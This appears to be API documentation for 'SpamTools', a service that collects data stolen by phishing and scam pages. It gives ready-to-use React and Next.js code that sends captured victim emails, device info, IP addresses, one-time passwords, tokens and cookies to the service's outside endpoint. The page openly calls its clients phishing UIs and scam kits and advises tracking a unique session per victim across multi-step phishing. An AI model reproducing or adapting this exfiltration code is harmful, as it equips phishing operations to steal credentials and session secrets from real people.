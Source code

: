 # ⚙️ Advanced Data Submission (React & Next.js)

You can use SpamTools’ API not just from PHP, but also from frontend frameworks like **React** or full-stack environments like **Next.js**. Below are plug-and-play code examples to submit `data1` to `data4` dynamically.

---

## ✅ Endpoint

```
POST https://spamtools.org/wp-json/spamtools/v1/add-subscription-data
```

---

## 🧾 Fields

| Field         | Type     | Required | Description                                  |
|---------------|----------|----------|----------------------------------------------|
| `hash`        | string   | ✅        | Your subscription hash                       |
| `user_session`| string   | ✅*       | Unique session ID (auto-generated if omitted)|
| `data1`       | string   | ❌        | Any captured value (e.g., email, user)       |
| `data2`       | string   | ❌        | Browser/device info                          |
| `data3`       | string   | ❌        | IP address/location                          |
| `data4`       | string   | ❌        | OTPs, tokens, cookies, etc.                  |

> ⚠️ Only `data1` to `data4` are accepted. Extra fields will be ignored.

---

## 💻 React: Frontend Version

Use this in any **React-based scam page or phishing UI**.

```js
// utils/sendToSpamTools.js

export async function sendToSpamTools(hash, dataFields, userSession = null) {
  if (!hash) return console.error("❌ Subscription hash is required.");

  const allowed = ['data1', 'data2', 'data3', 'data4'];
  const filtered = {};

  allowed.forEach((key) => {
    if (dataFields[key]) filtered[key] = dataFields[key];
  });

  if (Object.keys(filtered).length === 0) {
    return console.error("❌ At least one of data1–data4 is required.");
  }

  const payload = {
    hash,
    user_session: userSession || `session_${Date.now()}_${Math.random().toString(36).substring(2)}`,
    ...filtered,
  };

  try {
    const res = await fetch("https://spamtools.org/wp-json/spamtools/v1/add-subscription-data", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify(payload),
    });

    const data = await res.json();

    if (res.status === 200) {
      console.log("✅ Data sent successfully.");
    } else {
      console.error(`❌ Error [${res.status}]:`, data);
    }
  } catch (err) {
    console.error("❌ Network error:", err);
  }
}
```

### 🔧 Example Usage in React

```js
sendToSpamTools("abc123hash", {
  data1: "Email: user@example.com",
  data2: "Browser: Chrome"
});
```

---

## 🖥️ Next.js: API Route (Server-Side)

Use this to relay phishing/scam data from your own **Next.js server/backend**.

```js
// pages/api/send-log.js

export default async function handler(req, res) {
  if (req.method !== "POST") {
    return res.status(405).json({ error: "Method not allowed." });
  }

  const { hash, data1, data2, data3, data4, user_session } = req.body;

  if (!hash) {
    return res.status(400).json({ error: "Subscription hash required." });
  }

  const payload = {
    hash,
    user_session: user_session || `session_${Date.now()}_${Math.random().toString(36).substring(2)}`
  };

  ["data1", "data2", "data3", "data4"].forEach((key) => {
    if (req.body[key]) payload[key] = req.body[key];
  });

  if (Object.keys(payload).length <= 2) {
    return res.status(400).json({ error: "No valid data fields found." });
  }

  try {
    const apiRes = await fetch("https://spamtools.org/wp-json/spamtools/v1/add-subscription-data", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(payload),
    });

    const result = await apiRes.json();

    return res.status(apiRes.status).json(result);
  } catch (err) {
    return res.status(500).json({ error: "Internal error", detail: err.message });
  }
}
```

---

### 🔧 Example Usage (Client to API Route)

```js
await fetch("/api/send-log", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    hash: "abc123hash",
    data2: "Browser: Safari",
    data4: "OTP: 372818"
  }),
});
```

---

## 📌 Tips

- `user_session` lets you append data across multiple steps. Always use unique IDs per victim.
- You can omit `user_session` and SpamTools will auto-generate one inside the function.
- This is ideal for dynamic kits that send partial data at different stages (multi-step phishing, modal-based loggers, etc).

---


